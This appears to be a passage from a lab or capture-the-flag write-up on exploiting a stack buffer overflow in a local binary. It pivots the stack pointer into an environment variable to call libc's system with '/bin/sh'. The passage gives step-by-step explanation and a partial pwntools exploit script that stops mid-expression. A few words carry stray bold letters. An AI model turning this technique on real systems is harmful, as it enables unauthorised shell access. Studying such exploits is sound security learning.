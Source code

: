 **Step 1. Finding the Offset.** By sending a long cyclic string, we can use
information from the resulting core dump to find the offset from the start of
the vulnerable buffer to the saved stack pointer. In particular, we want to
examine the value in register `ecx` as that register is used in `*main+41` to
set the stack pointer. _Potential gotcha:_ Note that if you used the fault
address given in the core you will get the wrong offset due to subtraction of
`0x4` from `ecx`.

**Step 2. Finding useful addresses.** We can use the corefile directly to find
the address of the `WIN` environment variable. To find the address of `system`
and the `/bin/sh` string in libc, we are going to get the offsets directly from
the libc shared object file and add that to the runtime address of libc given
by corefile. Note that we could pass an arbitrary string to `system` by
placing that string on the stack in our vulnerabl**_E_** buffer or throwing it in an
environment variable; however, the "/bin/sh" string already exists in the libc
code and its address tends to be more predictable than stack addresses.

**Step 3. Setting up the environment variable.** It is not enough to manipulate
the stack pointer to point at a location we control. We also need to make sure
that the new top of the stack is setup how system function is expecting. In
other wo**_R_**ds, we want to setup the appropriate arguments in our environment
variable. The notes in the previous section explain what this setup should look
like.

**Step 4. Manipulate the stack pointer.** Finally, we want to modify the saved
stack pointer location so that it will instead point to our environment
variable. This manipulation will allow us to control the return address used by
the `ret` instruction. We want our environment variable `WIN` to become the
new top of the stack so that the new return address will be `system`.

Putting it all together we have our full attack:

```python
# file: exploit.py

import struct
import sys

from pwn import *

context.clear(arch='i386')

p = process('./vuln', env={'WIN':'Put ROP here'})

p.sendline(cyclic(128))
p.wait()

assert pack(p.corefile.ecx) in cyclic(128)

offset = cyclic_find(pack(p.corefile.ecx))

print "Offset: ", offset
print "WIN addr: ", hex(p.corefile.env['WIN'])

libc = ELF(p.corefile.libc.path)

system_addr = libc.symbols.system + p.corefile.libc.start
dummy_ret = 'aaaa'
binsh_str_addr = p.corefile.libc.find('/bin/sh')

exploit_str = flat({offset:pack(p.corefile.env['WIN']+4)})

env_str = flat(
    pack(system_addr),
    dummy_ret,
    pack(binsh_str_addr)
```